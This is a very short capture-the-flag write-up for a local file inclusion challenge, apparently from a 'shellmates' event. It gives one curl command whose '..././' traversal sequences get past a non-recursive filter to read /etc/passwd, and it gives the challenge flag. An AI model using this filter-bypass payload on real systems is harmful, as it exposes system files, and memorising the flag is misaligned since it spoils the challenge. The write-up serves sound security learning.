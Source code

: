 # lfi

## Write-up

```bash
curl -v '[DOMAIN]?language=./languages/..././..././..././..././etc/passwd'
```

## Flag

`shellmates{SH0uLD_H4Ve_MadE_th3_checK_recuRS1V3}`
